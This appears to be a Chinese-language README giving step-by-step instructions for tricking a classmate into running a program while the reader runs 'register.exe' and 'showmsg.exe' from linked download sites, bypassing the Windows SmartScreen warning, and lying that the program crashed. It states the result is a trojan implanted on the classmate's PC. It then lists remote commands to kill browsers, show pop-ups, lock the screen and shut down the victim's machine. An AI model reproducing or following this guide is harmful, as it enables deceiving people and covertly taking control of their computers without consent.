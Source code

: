 # 让同伴打开以下网站：

[https://b.helloosme.eu.org/](https://b.helloosme.eu.org/)

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

[https://osfiles.pages.dev/register.exe](https://osfiles.pages.dev/register.exe)

[https://osfiles.pages.dev/showmsg.exe](https://osfiles.pages.dev/showmsg.exe)

打开`此电脑`，然后打开`C:\`，然后打开`Users`文件夹或`用户`文件夹，然后打开`Lenovo`文件夹，然后打开`下载`文件夹或`Downloads`文件夹;

打开`register.exe`然后点击最小化图标:  
![](https://questionimg.3d66.com//answers/question/20210815/4717e3433d32f4dda61aa8dba7c61f3d.gif)

记住一定要比同伴的`ob.exe`先打开，同伴打开`ob.exe`后叫其稍等，等出现以下弹窗

 <h2>Q:出现"windows已保护你的电脑"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
点击"更多信息"，再点击"仍要运行"即可。

谎称程序崩溃，要让我重新开发，等同伴看视频/做题时，重新调出那个register.exe窗口（屏幕最底下那个黑框框里有个register.exe程序图标，点一下）

当程序窗口内出现`目标连接成功`后即为成功植入木马。

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```

